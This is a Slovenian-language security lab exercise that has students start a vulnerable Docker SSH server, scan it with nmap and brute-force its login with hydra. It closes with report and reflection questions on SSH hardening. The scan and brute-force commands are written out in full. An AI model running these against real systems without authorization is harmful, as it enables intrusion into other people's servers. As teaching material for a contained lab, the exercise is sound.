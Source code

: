 # Testiranje SSH varnosti z Nmap in Hydra

V tej vaji boste preizkusili dve ključni tehniki testiranja varnosti oddaljenih sistemov:
- odkrivanje odprtih vrat in storitev z orodjem `nmap`
- brute-force napad na SSH storitev z orodjem `hydra`

Namen vaje je pokazati, kako napadalci pridobijo informacije o sistemu in zakaj je zaščita SSH storitve in zapiranje neuporabljenih vrat ključna za varnost.

---

# 🐳 Priprava okolja z Dockerjem

Pred začetkom vaje vzpostavite ciljni sistem z Dockerjem na vašem host računalniku.  
Na voljo imate Docker image z ranljivim SSH strežnikom, ki omogoča testiranje napadov.

### 🔷 Korak 0: Zagon Docker SSH strežnika

Če še niste, najprej zgradite Docker image z imenom `dvws`:
```bash
docker build -t dvws .
```

Nato zaženite container:
```bash
docker run -d -p 2222:22 --name dvws-ssh dvws
```

SSH strežnik bo zdaj na voljo na host računalniku na naslovu `<target_ip>`, port `2222`, z uporabnikom `testuser` in geslom `test123`.

---

# 🧪 Testiranje SSH varnosti z Nmap in Hydra

SSH (Secure Shell) je standarden protokol za oddaljeno prijavo v strežnik. Šibka gesla ali odprte nepotrebne storitve omogočajo napadalcem hitro pridobitev dostopa.  
V tej vaji boste najprej s `nmap` ugotovili odprta vrata in storitve, nato pa z `hydra` preverili moč gesel.

---

## 1️⃣ Uvod

Cilj je, da se kot uporabniki naučimo kako:  
✅ uporabiti orodje Nmap za odkrivanje odprtih vrat in storitev  
✅ uporabiti orodje Hydra za preverjanje gesel na SSH  
✅ razumeti nevarnosti šibkih gesel in odprtih storitev

---

## 2️⃣ Aktivnost

### 🖥️ Navodila

Študenti boste izvedli naslednje korake in dokumentirali rezultate:

---

### 🔷 Korak 1: Skeniranje odprtih vrat z Nmap

Najprej preverite, katere storitve so dostopne na ciljnem sistemu:

```bash
nmap -sS -sV -O -p- <target_ip>
```

Parametri:
- `-sS` — SYN skeniranje (tišje)
- `-sV` — zazna različice storitev
- `-O` — zazna operacijski sistem (če je mogoče)
- `-p-` — skeniraj vsa vrata (1-65535)

Zapišite si:
- katera vrata so odprta
- katere storitve tečejo
- katero različico operacijskega sistema je zaznal

💡 Refleksija: zakaj zapirati neuporabljene porte?

---

### 🔷 Korak 2: Preveri SSH povezavo

Prepričajte se, da SSH storitev deluje:
```bash
ssh testuser@<target_ip> -p 2222
```
Geslo: `test123`

---

### 🔷 Korak 3: Ustvari seznam gesel

Če želite hitrejši test, ustvarite svoj seznam gesel:
```bash
echo -e "password
123456
test123
admin" > passwords.txt
```

---

### 🔷 Korak 4: Brute-force napad z Hydra

Uporabite Hydra za napad:
```bash
hydra -l testuser -P passwords.txt -s 2222 <target_ip> ssh
```

Parametri:
- `-l testuser` — uporabniško ime
- `-P passwords.txt` — seznam gesel
- `-s 2222` — številka vrat
- `<target_ip>` — IP naslov strežnika
- `ssh` — protokol

Hydra bo ob uspehu izpisal nekaj takega:
```
[22][ssh] host: <target_ip>   login: testuser   password: test123
```

---

## 3️⃣ Analiza in poročilo

Oddajte poročilo z naslednjimi vsebinami:
- Izpis rezultatov `nmap` (katere storitve/vrata so odprta)
- Izpis rezultatov `hydra` (ali je geslo najdeno)
- Posnetki zaslona obeh rezultatov
- Kratek komentar: zakaj je uporaba šibkih gesel nevarna in zakaj zapirati neuporabljene porte

---

## 4️⃣ Refleksija in analiza

- Kako bi zaščitili SSH strežnik pred brute-force napadi?
- Katere dodatne ukrepe (npr. omejitve po številu prijav, uporaba javno-zasebnih ključev, firewall) bi priporočili?
- Kako se spremeni rezultat, če uporabimo zelo močno geslo?

